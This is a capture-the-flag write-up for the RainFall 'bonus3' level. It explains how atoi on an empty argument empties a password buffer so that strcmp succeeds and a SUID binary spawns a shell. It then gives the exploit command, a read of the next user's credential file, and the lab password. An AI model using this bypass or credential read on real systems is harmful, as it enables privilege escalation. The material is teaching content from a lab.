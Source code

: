 # bonus3: Exploiting atoi Behavior for strcmp Bypass

## Challenge Overview

The `bonus3` program reads content from `/home/user/end/.pass`, takes a single command-line argument, and compares a portion of the file content against the argument. If they match, it grants a shell. The goal is to bypass this check to gain access to the `end` user account.

## Source Code Analysis

The program reads the first 66 bytes from the password file into `password_buffer`. It then uses the command-line argument (`argv[1]`) in a critical sequence:

```c
// Convert argument to integer
password_len_arg = atoi(argv[1]);

// Place null terminator based on integer value
password_buffer[password_len_arg] = '\0';

// ...

// Compare potentially truncated buffer with original argument
comparison_result = strcmp(password_buffer, argv[1]);

if (comparison_result == 0) {
    // Grant shell if match
    execl("/bin/sh", "sh", (char *)NULL);
} else {
    // Print second part of file (often empty due to side effects)
    puts(message_buffer);
}
```
The code also contains buffer overflows (`memset`, first `fread`) and logic that often results in `puts(message_buffer)` printing nothing, which initially caused some confusion during analysis. Debugging was hampered by the SUID nature of the binary preventing direct GDB inspection of file reads.

The primary goal for exploitation is to make the `strcmp` comparison succeed, thereby triggering the `execl` call and granting a shell. To achieve this, we must leverage the program's use of `atoi` on the command-line argument and the subsequent null termination of the password buffer.


## Vulnerability

The primary vulnerability lies in the interaction between `atoi`, the null termination, and `strcmp`. Specifically:
*   `atoi("")` (when `argv[1]` is an empty string) typically returns `0`.
*   This causes `password_buffer[0] = '\0';` to execute.
*   This effectively makes `password_buffer` an empty string, regardless of the file content read by `fread`.
*   The subsequent `strcmp(password_buffer, argv[1])` becomes `strcmp("", "")`.
*   `strcmp` returns `0` for identical strings, including two empty strings.

This allows bypassing the comparison logic without needing to know the password file's content or relying on the buffer overflows.

## Exploitation

The exploit involves running the program with an empty string as the command-line argument. This triggers the vulnerability described above, causing the `strcmp` to return 0 and the program to execute `/bin/sh`.

```bash
bonus3@RainFall:~$ ./bonus3 ""
```

## Getting the Password

Once the exploit successfully grants a shell, the password for the `end` user can be read from their home directory:

```bash
$ cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
$ exit
```

## Moving to Next Level

Use the obtained password to switch to the `end` user account:

```bash
bonus3@RainFall:~$ su end
Password: 3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
end@RainFall:~$
